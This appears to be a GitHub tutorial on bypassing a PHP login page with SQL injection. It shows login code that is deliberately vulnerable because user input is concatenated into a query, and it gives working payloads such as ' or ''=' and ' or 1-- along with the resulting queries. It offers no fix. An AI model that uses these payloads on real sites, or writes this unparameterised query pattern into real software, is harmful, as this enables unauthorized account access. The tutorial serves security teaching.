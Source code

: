 ![figure4](https://user-images.githubusercontent.com/83446765/161322260-335b849b-44ba-4998-b92c-9cb09c7b9f69.png)
    
# Authentication Bypass using SQL Injections

Bypass the authentication of a vulnerable login page using SQL injection. (Login Bypass Using SQL Injection)
			
First let us see an example of piece of code that actually creates the Login Page vulnerable to this attack.
			
<b>Example:</b>
			
			$uname=$_POST['uname'];
			$passwrd=$_POST['passwrd'];
			$query="select username,pass from users where username='$uname' and password='$passwrd' limit 0,1";
			$result=mysql_query($query);
			$rows = mysql_fetch_array($result);
			if($rows)
			{
			echo "You have Logged in successfully" ;
			create_session();
			}
			else
			{
			Echo "Better Luck Next time";
			}			
			
What we can see above is a PHP code which takes the user Input put  into the SQL Query and then check if any row is returned it allow you to get Log in.
			
Now as we can see the query is quoting the input with single quote, that means we have to use a single quote to close the first quote and then inject.
			
So lets Inject ` ' or ''=' ` into the Query:

Logging in with following details: </br>
`Username : ' or ''=' `  </br>
`Password : ' or ''='`   </br>


			select username,pass from users where username='' or ''='' and password='' or ''='' limit 0,1;




so what i actually did is made the query to return true using the or. We can even try and comment out the query using any comment operator like using the following username and password. </br>

`Username : ' or 1-- `   </br>
`Password :          `    </br>

 what we did is we left the password field empty and commented out the rest of the query. so lets try and check the Query part.


			select username,pass from users where username='' or true--' and password='' or ''='' limit 0,1;


